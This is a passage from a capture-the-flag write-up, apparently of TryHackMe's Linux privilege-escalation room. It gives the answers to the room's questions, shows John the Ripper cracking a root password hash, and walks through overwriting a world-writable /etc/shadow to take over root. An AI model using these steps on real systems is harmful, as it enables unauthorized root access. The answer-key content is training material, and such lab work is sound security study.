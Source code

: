 ```
kali@kali:~/CTFs/tryhackme/Linux PrivEsc$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:00 DONE (2020-09-30 13:21) 1.538g/s 2363p/s 2363c/s 2363C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```
user@debian:~/tools/mysql-udf$ su root
Password: 
root@debian:/home/user/tools/mysql-udf# cd ~
root@debian:~#
```

1. What is the root user's password hash?

`$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0`

2. What hashing algorithm was used to produce the root user's password hash?

`sha512crypt`

3. What is the root user's password?

`password123`

## Weak File Permissions - Writable /etc/shadow

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-writable:

`ls -l /etc/shadow`

Generate a new password hash with a password of your choice:

`mkpasswd -m sha-512 newpasswordhere`

Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:

`su root`

**Remember to exit out of the root shell before continuing!**

1. Read and follow along with the above.

```
user@debian:~/tools/mysql-udf$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
user@debian:~/tools/mysql-udf$ mkpasswd -m sha-512 newpasswordhere
$6$a2PjThbLcYFudFW$wbNMrIVifKU/9aVvwiXc.XFDJ1l.kMEFbswTfat8wBrXiYopSnALl/WhTG.UmYY0Jf4L8Hf8vtKA3YmxGGSpy1
user@debian:~/tools/mysql-udf$ 
```
